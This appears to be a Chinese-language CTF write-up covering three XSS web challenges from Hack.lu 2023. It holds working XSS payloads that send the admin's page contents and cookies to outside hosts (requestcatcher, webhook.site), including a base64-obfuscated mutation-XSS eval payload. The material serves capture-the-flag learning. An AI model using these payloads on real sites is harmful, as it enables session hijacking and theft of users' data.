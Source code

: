 # web
### Based Encoding
#xss 
用户的输入会进行一个自己写的base91算法编码然后回显
思路,`decode("<script>alert(1)</script>")`
但是发现存在不可见字符传参传不进去,但是代码里允许16进制传参,

```js
print(decode('<script>alert(1)</script>').hex())
//成功弹窗
```

但是需要读取admin的编码历史,需要用到一些base91码表里没有的值,比如`.`
```js
<script>
fetch("/")
	.then(x=>x.text())
		.then(x=>fetch("http://example.com",{
			method:"post",
			body:x		
		}))
</script>
```

```html
<script>
fetch("/")
    .then(x => x.text())
    .then(x => fetch("https://nice.requestcatcher.com/test", {
        method: "post",
        body: x
    }))
</script>aaa <!--防止base91解码后丢失数据>
```

接收到admin的页面截图
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231018202947.png)
直接访问即可得到flag

### awesome I
#xss 
一个可以提交在线笔记的网页,需要xss到admin获取cookie来读取flag笔记

![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231018214928.png)
可以观察到使用htmx,

```html
<div hx-get="https://webhook.site/cd508abb-abf4-42db-92d8-af41cf9017b3" hx-trigger="load" hx-target="this" hx-on="htmx:afterRequest:fetch('https://webhook.site/cd508abb-abf4-42db-92d8-af41cf9017b3?a='+document.cookie)">click</div>
```

![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231018220811.png)
获取到admincookie
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231018221504.png)

### awesomeII
#xss 

https://blog.bi0s.in/2023/10/16/Web/awesomenotes-2-HackluCTF2023/
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231018222050.png)

tags里是一堆数学公式标签,允许自定义style,


看不懂了,先把payload写上

---

```html
<math><annotation-xml encoding="text/html"><style><img src=x onerror="eval(atob('ZmV0Y2goYC9hcGkvbm90ZS9mbGFnYCkudGhlbigocik9PnIudGV4dCgpKS50aGVuKChyKT0+bG9jYXRpb249YGh0dHBzOi8vd2ViaG9vay5zaXRlL2NkNTA4YWJiLWFiZjQtNDJkYi05MmQ4LWFmNDFjZjkwMTdiMz9hPWArZW5jb2RlVVJJQ29tcG9uZW50KHIpKQo='))"></style></annotation-xml></math>
```

![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231018223907.png)

# reverse

# pwn

# crypto

# Misc


---
# *相关wp*




2023-10-18   15:52